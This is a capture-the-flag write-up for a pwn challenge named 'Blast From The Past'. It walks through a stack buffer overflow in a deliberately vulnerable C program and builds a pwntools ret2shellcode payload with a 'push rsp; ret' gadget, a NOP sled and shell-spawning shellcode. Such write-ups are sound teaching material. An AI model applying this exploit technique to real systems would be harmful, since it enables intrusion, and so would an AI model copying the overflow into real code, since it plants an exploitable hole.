





# [PWN] Blast From The Past
## Description
Cats and Guns takes a time machine and lands back 50 years in the future, where binary protections have yet to exist.

Hack into this program and prove your worth!

Author: Elma

nc challs.nusgreyhats.org 35123

## The Program
When we run the program, we are greeted with the following output:



The program takes in a single user input before printing out a few lines with our input included as part of the output. We can run `checksec` against the file to look at the compiler options used during compilation and other properties of the executable:



Notice that NX is disabled, which means that we can run code in memory. There is also no PIE so we do not need to worry about randomised addresses each time the program runs.

## Code Analysis
The source code provided for the challenge does not seem like much:

```c
#include <stdio.h>
#include <string.h>

void ignore_me() {
	setbuf(stdin, 0);
	setbuf(stdout, 0);
}

void pew_pew_90s() {
    printf("🔫 *pew pew* Retro laser gun fires! But it's still just a cat toy from the 90s...\n");
}

int main() {

	ignore_me();
	
    char retro_cat[32];
	int ver = 50004;
    
    printf("🕹️  BLAST TO THE PAST - Cyber Cat Defense %d! 🐱💾\n", ver);
    printf("Enter your retro cyber-cat's name, dude: ");
    
	scanf("%320s", retro_cat);
    
    printf("Radical! %s is locked and loaded with a sweet laser gun!\n", retro_cat);
    pew_pew_90s();
    
    return 0;
}
```

It literally asks for a user input using `scanf()` before printing it out using `printf()`. However, there is something important that we have to notice here, that is, the `retro_cat` variable we are writing into is a `char` array that holds 32 characters (inclusive of the null terminator). However, the `scanf()` function is reading up to 320 bytes of data into the variable, constituting a traditional buffer overflow vulnerability.

## Debugging the Program
Knowing that this is a buffer overflow challenge, typically, we should find out how many characters we can write before we start overwriting addresses. I will be using `pwndbg` as my debugger of choice.

In `pwndbg`, I will use the `r` command to run the program. When the program pauses to ask for user input, I will hit `[CTRL-C]` to enter `pwndbg`'s context menu, and use the `cyclic 100` command to generate a sequence of characters that I will use as my user input:

```
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

I will then use the `c` command to resume the program, paste in the input, which will cause a segmentation fault (as the return address has been overwritten with junk). Then, I will run the `cyclic -l <PATTERN>` command on the top 8 bytes from the stack. The top 8 bytes of the stack (RSP) holds the (overwritten) return address of the `main()` function, and the `cyclic -l` command will return the offset of our user input before this return address is overwritten.



As we can infer from the command's output, we can write 56 characters before reaching the return address of `main()`.

## Exploitation
So how do we go about getting the flag? For this, I will be using [pwntools](https://docs.pwntools.com/en/stable/) to create a script to make things easier for us. 

We inferred from `checksec` previously that NX is disabled, so ideally we should be able to run shellcode which we write to the stack. Let us focus on the payload. We know that we need to write 56 characters before reaching the return address, so let us start of with the following:

```python
exe = './challenge'
context.binary = elf = ELF(exe)

offset = 56
payload = flat(
    b'A' * offset,
    ???
)
```

Note that the `flat()` function is there to help us automatically handle endianness based on the context.

So what do we put next after the padding? What address do we overwrite `main()`'s return address with? For that, we need to look at ROP gadgets, which are small snippets of assembly codes that are already present within the program.

To find all the ROP gadgets, we can use the `ropper` tool:

```
ropper -f ./challenge --search "push rsp; ret"
```



The tool returned us a bunch of ROP gadgets? But which one do we use? We know that we can use the buffer overflow attack to write data to the stack, and also, the RSP register points to the top of the stack (lower memory address). After our ROP gadget is used, the RSP should point to the next item in the payload.

```python
payload = flat(
    b'A' * offset, # padding to reach return address
    gadget_address, # <-- return address of main
    next_payload # <-- RSP will point here next
)
```

So how can we use whatever I just said? Well, if the RSP is going to point at `next_payload` next, why not have `next_payload` be some shellcode to let us run whatever we desire?

But remember this: `gadget_address` is an address pointing at a ROP gadget. Whatever assembly code that ROP gadget contains should return us control later on to run our shellcode. If we look through the `ropper` output once more, we find this gadget: `0x00000000004011fc: push rsp; ret;`. What does `push rsp; ret;` do?

1. `push rsp` pushes the current stack pointer (RSP) onto the stack. At this point, RSP points to `next_payload`.
2. `ret` pops the address pushed by `push rsp` (now pointing to `next_payload`) and jumps to it.
3. **Result:** execution continues at `next_payload`.

So essentially, we are "building a bridge" towards the next instructions at `next_payload`.

Now then, what should `next_payload` be? Well, I like shells so it is going to be shellcode to spawn one in my case. Fortunately, we do not need to know how to write the shellcode, and we can pwntool's `shellcraft` module to help us do it:

```python
offset = 56
shellcode = asm(shellcraft.sh())

# ropper -f ./challenge --search "push rsp; ret"
push_rsp_ret = 0x4011fc

payload = flat(
    b'A' * offset,
    push_rsp_ret,
    shellcode
)
```

We are almost done here, but for running shellcode on the stack, we typically have what is known as a NOP sled. What a NOP sled is essentially is a sequence of assembly NOP instructions. A NOP instruction essentially does nothing. However, the purpose of having this NOP sled is that we cannot guarantee that our program will return execution to the exact address where our shellcode is, so we place this NOP sled right before a shellcode to act as a "slide". Thus, if for some reason the program's execution continues somewhere within the NOP sled, it will just cycle through NOP instructions and eventually land in our shellcode anyways.

```python
offset = 56
shellcode = asm(shellcraft.sh())

# ropper -f ./challenge --search "push rsp; ret"
push_rsp_ret = 0x4011fc

payload = flat(
    b'A' * offset,
    push_rsp_ret,
    asm('nop') * 16,
    shellcode
)
```

## Getting the Flag
Let us now run the completed script, which I have added to this repository (`solve.py`). If you are using my script, you can run it with `python solve.py REMOTE challs.nusgreyhats.org 35123` if you are testing it against the CTF server. For testing locally, you can use either `python solve.py` or `python solve.py GDB` (Debugging mode, might require modifying the terminal emulator and gdbscript). Do note that the `challenge` file must be within the same directory as the script for it to work.

Using the script, we can obtain a shell and read the contents of `flag.txt`.



**Flag:** `grey{traditional_ret2shellcode_exploits!}`

Script: [solve.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Greyhats%20Welcome%20CTF%202025/Blast%20From%20The%20Past/solve.py)
